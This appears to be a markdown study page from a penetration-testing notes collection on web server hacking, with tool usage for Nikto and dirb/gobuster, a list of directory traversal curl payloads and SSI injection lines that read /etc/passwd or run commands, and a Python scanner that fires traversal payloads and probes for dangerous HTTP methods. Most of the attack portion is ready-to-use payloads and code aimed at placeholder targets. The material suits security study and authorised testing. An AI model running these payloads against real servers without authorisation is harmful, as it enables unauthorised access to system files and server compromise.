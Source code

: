# Web Server Hacking - Topics Overview

## Topic Explanation
Web server hacking involves exploiting vulnerabilities in web server software, configurations, and underlying infrastructure to gain unauthorized access, steal data, or disrupt services. Common targets include Apache, Nginx, IIS, and other web servers. Attack vectors include directory traversal, server-side includes injection, buffer overflows, privilege escalation, and exploitation of default configurations, unpatched vulnerabilities, and misconfigurations.

## Articles for Further Reference
- [OWASP Web Server Security](https://owasp.org/www-project-web-security-testing-guide/)
- [NIST Guidelines for Securing Web Servers](https://csrc.nist.gov/publications/detail/sp/800-44/version-2/final)
- [Apache Security Tips](https://httpd.apache.org/docs/2.4/misc/security_tips.html)

## Reference Links
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [CVE Database](https://cve.mitre.org/)
- [Exploit Database](https://exploit-db.com/)

## Available Tools for the Topic

### Tool Name: Nikto
**Description:** Web server vulnerability scanner that tests for dangerous files, outdated server software, and server configuration issues.

**Example Usage:**
```bash
# Basic scan
nikto -h http://target-server.com

# Scan with specific plugins
nikto -h target-ip -Plugins @@ALL

# Save results
nikto -h target-ip -o results.html -Format htm
```

### Tool Name: Dirb/Dirbuster
**Description:** Web content discovery tools for finding hidden directories and files on web servers.

**Example Usage:**
```bash
# Basic directory enumeration
dirb http://target-server.com

# Custom wordlist
dirb http://target-server.com /usr/share/wordlists/dirb/big.txt

# Gobuster alternative
gobuster dir -u http://target-server.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## All Possible Payloads for Manual Approach

### Directory Traversal Attacks
```bash
# Basic directory traversal
curl "http://target.com/page.php?file=../../../etc/passwd"
curl "http://target.com/page.php?file=..\..\..\..\windows\system32\drivers\etc\hosts"

# URL encoded
curl "http://target.com/page.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"

# Double encoding
curl "http://target.com/page.php?file=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd"
```

### Server-Side Include (SSI) Injection
```html
<!--#exec cmd="cat /etc/passwd"-->
<!--#exec cmd="id"-->
<!--#include virtual="/etc/passwd"-->
<!--#echo var="DATE_LOCAL"-->
```

### Web Server Enumeration
```bash
# Banner grabbing
curl -I http://target-server.com
nmap -sV -p 80,443 target-ip

# HTTP methods enumeration
curl -X OPTIONS http://target-server.com
curl -X TRACE http://target-server.com
```

## Example Payloads

### Web Server Vulnerability Scanner
```python
#!/usr/bin/env python3
import requests
import re
from urllib.parse import urljoin

class WebServerScanner:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.vulnerabilities = []
    
    def scan_server_info(self):
        """Gather server information"""
        response = self.session.get(self.target_url)
        server = response.headers.get('Server', 'Unknown')
        print(f"Server: {server}")
        
        # Check for version disclosure
        if any(version in server.lower() for version in ['apache/2.2', 'nginx/1.10', 'iis/6.0']):
            self.vulnerabilities.append("Outdated server version detected")
    
    def test_directory_traversal(self):
        """Test for directory traversal vulnerabilities"""
        payloads = [
            "../../../etc/passwd",
            "..\\..\\..\\windows\\system32\\drivers\\etc\\hosts",
            "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
        ]
        
        for payload in payloads:
            url = f"{self.target_url}?file={payload}"
            response = self.session.get(url)
            
            if "root:" in response.text or "[fonts]" in response.text:
                self.vulnerabilities.append(f"Directory traversal: {payload}")
    
    def test_http_methods(self):
        """Test dangerous HTTP methods"""
        dangerous_methods = ['TRACE', 'TRACK', 'DELETE', 'PUT']
        
        for method in dangerous_methods:
            response = self.session.request(method, self.target_url)
            if response.status_code < 400:
                self.vulnerabilities.append(f"Dangerous HTTP method enabled: {method}")

# Usage
scanner = WebServerScanner("http://target-server.com")
scanner.scan_server_info()
scanner.test_directory_traversal()
scanner.test_http_methods()
```